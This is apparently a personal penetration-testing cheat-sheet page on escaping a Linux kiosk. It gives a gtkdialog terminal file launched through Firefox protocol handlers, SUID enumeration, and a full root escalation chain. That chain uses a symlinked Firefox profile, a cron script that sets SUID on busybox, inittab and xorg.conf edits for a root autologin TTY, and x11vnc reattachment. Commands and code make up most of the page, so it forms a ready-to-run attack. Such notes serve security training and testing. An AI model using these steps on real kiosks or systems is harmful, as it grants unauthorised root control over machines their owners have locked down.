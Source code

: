 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Linux_Kiosk_Break
---
```



<span style="font-size: 35px; color:red"><b>Linux Kiosk Breakout</b></span>
&nbsp;

```shell
sudo apt install tigervnc-viewer
```

Use <span style="color:red">xtigervncviewer</span> to connect.

If the kiosk presents a browser page, try:
- <span style="color:red">file:///var/www/localhost/</span>
- <span style="color:red">file:///var/www/localhost/index.html</span>
- <span style="color:red">chrome://</span>, <span style="color:red">ftp://</span>, <span style="color:red">mailto:</span>, <span style="color:red">smb://</span>, <span style="color:red">irc://</span>

Some of these might open a pop-up window that allows you to <span style="color:red">browse</span> and choose the program you want to use to open the link.
Interesting ones to exploit: <span style="color:red">gtkdialog</span>, <span style="color:red">firefox</span> (to open another firefox window with another profile, unlocking new functions on upper right corner)

If you can access the tools, search <span style="color:red">Web Developer </span> > <span style="color:red">Scratchpad</span>.

You can create the following script and save it as <span style="color:red">terminal.txt</span> to get Local Code Execution:
```html
<window>
  <vbox>
    <vbox scrollable="true" width="500" height="400">
        <edit>
          <variable>CMDOUTPUT</variable>
          <input file>/tmp/termout.txt</input>
        </edit>
    </vbox>
    <hbox>
      <text><label>Command:</label></text>
      <entry><variable>CMDTORUN</variable></entry>
      <button>
          <label>Run!</label>  
          <action>$CMDTORUN > /tmp/termout.txt</action>
          <action>refresh:CMDOUTPUT</action>  
      </button>
    </hbox>
  </vbox>
</window>
```

And call it from Firefox like <span style="color:red">irc://asd -f <path_to_terminal.txt></span>.
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Privilege Escalation</b></span>
Check SUID: <span style="color:red">find / -perm -u=s -exec ls -al {} +</span>
Check running root processes: <span style="color:red">ps aux</span>
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Example of Privilege Excalation</b></span>
Openbox running as root process, if you run <span style="color:red">openbox --replace</span> it will reset everything and re-create the <span style="color:red">/home/guest/.mozilla/firefox/c3pp43bg.default/bookmarks.html</span> file. This allows you to write into privileged directories (<span style="color:red">ln -s /usr/bin /home/guest/.mozilla/firefox/c3pp43bg.default</span>).
You can create a script like the following (<span style="color:red">testscript.sh</span>):
```shell
echo "#!/bin/bash" > /etc/cron.hourly/bookmarks.html
echo "chown root:root /home/guest/busybox" >> /etc/cron.hourly/bookmarks.html
echo "chmod +s /home/guest/busybox" >> /etc/cron.hourly/bookmarks.html
```
This will set SUID bit on our local busybox file using chronojobs.
Once done, create a <span style="color:red">runterminal.sh</span>:
```shell
#!/bin/bash
/usr/bin/gtkdialog -f /home/guest/terminal.txt
```
and execute it like <span style="color:red">/home/guest/busybox sh /home/guest/runterminal.sh</span> to get root shell.

To get a better shell as root, run <span style="color:red">xdotool key Ctrl+Alt+F3</span> in our gtkdialog terminal. If nothing pops up, run:
```shell
cp /etc/X11/xorg.conf.d/10-xorg.conf /home/guest/xorg.txt
chmod 777 /home/guest/xorg.txt
```

To then comment out "DontVTSwitch" in <span style="color:red">/home/guest/xorg.txt</span>. Copy it back to its original location:
```shell
cp /home/guest/xorg.txt /etc/X11/xorg.conf.d/10-xorg.conf
```
and re-configure permissions:
```shell
chmod 644 /etc/X11/xorg.conf.d/10-xorg.conf
```
Run <span style="color:red">openbox --replace</span> again.

```shell
cp /etc/inittab /home/guest/inittab.txt
chmod 777 /home/guest/inittab.txt
```

Under the <span style="color:red">standard console login</span> section under the two commented lines, add a TTY like:
<span style="color:red">c3::respawn:/sbin/agetty --noclear --autologin root 38400 tty3 linux</span>

```shell
cp /home/guest/inittab.txt /etc/inittab
chmod 600 /etc/inittab
/sbin/init q
```
Then create a scratchpad like:
```shell
#!/bin/bash
killall x11vnc 
x11vnc -rawfb vt3
```
make it executable and run it. You should be kicked out of the session. When you will reconnect, you should have root access.

